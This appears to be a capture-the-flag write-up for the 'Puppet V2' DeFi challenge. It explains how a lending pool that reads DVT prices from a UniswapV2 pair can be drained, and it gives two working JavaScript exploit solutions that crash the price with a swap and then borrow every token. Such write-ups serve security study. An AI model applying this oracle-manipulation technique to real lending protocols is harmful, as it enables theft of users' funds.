 # Puppet V2

## analyse

### the whole analyse

This challenge requires to be familiar with (at least) the following UniswapV2 smart contracts:

- [UniswapV2](https://github.com/Uniswap/v2-periphery/blob/master/contracts/libraries/UniswapV2Library.sol)
- [UniswapV2Router02](https://github.com/Uniswap/v2-periphery/blob/master/contracts/UniswapV2Router02.sol)
- [UniswapV2Pair](https://github.com/Uniswap/v2-core/blob/master/contracts/UniswapV2Pair.sol)

In this challenge, there’s a pair contract (liquidity pool) between WETH and DVT from where PuppetV2 gets the price of the DVT tokens when some user wants to borrow(), calculating the deposit of WETH required by calling UniswapV2Library (line 89):

```solidity
function _getOracleQuote(uint256 amount) private view returns (uint256) {
  (uint256 reservesWETH, uint256 reservesToken) = UniswapV2Library
     .getReserves(_uniswapFactory, address(_weth), address(_token));
  return UniswapV2Library.quote(
    amount.mul(10**18),
    reservesToken,
    reservesWETH
  );
}
```

The math behind the UniswapV2 liquidity pool contract for calculating the cost of an asset can be found on the quote() function of the UniswapV2Library contract:

```solidity
function quote(uint amountA, uint reserveA, uint reserveB) internal pure returns (uint amountB) {       
  require(amountA > 0, 'UniswapV2Library: INSUFFICIENT_AMOUNT');
  require(
    reserveA > 0 && reserveB > 0,
    'UniswapV2Library:INSUFFICIENT_LIQUIDITY'
  ); 
  amountB = amountA.mul(reserveB) / reserveA;   
}
```

Now, since the attacker has a big amount of DVT tokens, he’s able to manipulate the price of the DVT by swapping them all with WETH on the Uniswap exchange of the pair DVT/WETH. To devaluate its price, the attacker has to increase the amount of DVT and decrease the amount of WETH in the pool. So, similar to previous level Puppet, the vulnerability of this challenge lies upon the ability of a singular entity to change an asset’s price drastically.

- it uses Uniswap v2 as a price oracle
- the assets in the liquidity pool are WETH / DVT
- initial：the asset ratio is 10 / 100

### attack

1.Swap all of the attacker DVT tokens with WETH in the Uniswap exchange (pair) contract：Approve all attacker's DVT balance to UniswapRouter contract, and Swap all DVT tokens with WETH using the UniswapRouter contract.

```js
await this.token.connect(attacker).approve(this.uniswapRouter.address, ATTACKER_INITIAL_TOKEN_BALANCE);
// 在交易所置换自己所有的token
await this.uniswapRouter.connect(attacker).swapExactTokensForETH(
    ATTACKER_INITIAL_TOKEN_BALANCE,
    0,
    [this.token.address, this.uniswapRouter.WETH()],
    attacker.address,
    9999999999
);
```

2.Get the extra WETH needed to borrow by depositing some ETH to the WETH contract

```js
const amount = await this.lendingPool.calculateDepositOfWETHRequired(POOL_INITIAL_TOKEN_BALANCE);
await this.weth.connect(attacker).deposit({value:amount});
```

3.Finally, borrow all the tokens. And we should call the approve() to make sure borrow() can be excuted.

```js
await this.weth.connect(attacker).approve(this.lendingPool.address, amount);
await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE);
```

## solutions

- solution 1

```js
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */

        console.log(
            'WETH REQUIRED BEFORE SWAP: ',
            String(await this.lendingPool.calculateDepositOfWETHRequired(POOL_INITIAL_TOKEN_BALANCE))
        )
    
        // Approve all attacker's DVT balance to UniswapRouter contract.
        await this.token
            .connect(attacker)
            .approve(this.uniswapRouter.address, ATTACKER_INITIAL_TOKEN_BALANCE)
    
        // Swap all DVT tokens with WETH using the UniswapRouter contract.
        await this.uniswapRouter.connect(attacker).swapExactTokensForTokens(
            ATTACKER_INITIAL_TOKEN_BALANCE, // amountIn
            0, // amountOutMin
            [this.token.address, this.weth.address], // [tokenFromUserToPool, tokenFromPoolToUser]
            attacker.address, // to
            (await ethers.provider.getBlock('latest')).timestamp * 2 // arbitrary deadline
        )
    
        // Get the extra WETH needed by interacting with WETH9 contract
        await this.weth.connect(attacker).deposit({value: ethers.utils.parseEther('19.6')})
    
        // Borrow all DVT tokens from pool (~29.5 WETH)
        const wethRequired = await this.lendingPool.calculateDepositOfWETHRequired(
            POOL_INITIAL_TOKEN_BALANCE
        )
        await this.weth.connect(attacker).approve(this.lendingPool.address, wethRequired)
        await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE)
    
        console.log('WETH REQUIRED AFTER SWAP: ', String(wethRequired))

    });
```

- solution 2

```js
	   await this.token.connect(attacker).approve(this.uniswapRouter.address, ATTACKER_INITIAL_TOKEN_BALANCE);
       // 在交易所置换自己所有的token
       await this.uniswapRouter.connect(attacker).swapExactTokensForETH(
           ATTACKER_INITIAL_TOKEN_BALANCE,
           0,
           [this.token.address, this.uniswapRouter.WETH()],
           attacker.address,
           9999999999
       );
       
       console.log('Attacker`s balance:', (await ethers.provider.getBalance(attacker.address)).toString());
       //计算borrow所有token所需要的eth
       const amount = await this.lendingPool.calculateDepositOfWETHRequired(POOL_INITIAL_TOKEN_BALANCE);
       //先往钱包里存钱
       await this.weth.connect(attacker).deposit({value:amount});
       await this.weth.connect(attacker).approve(this.lendingPool.address, amount);
       await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE);
```












































































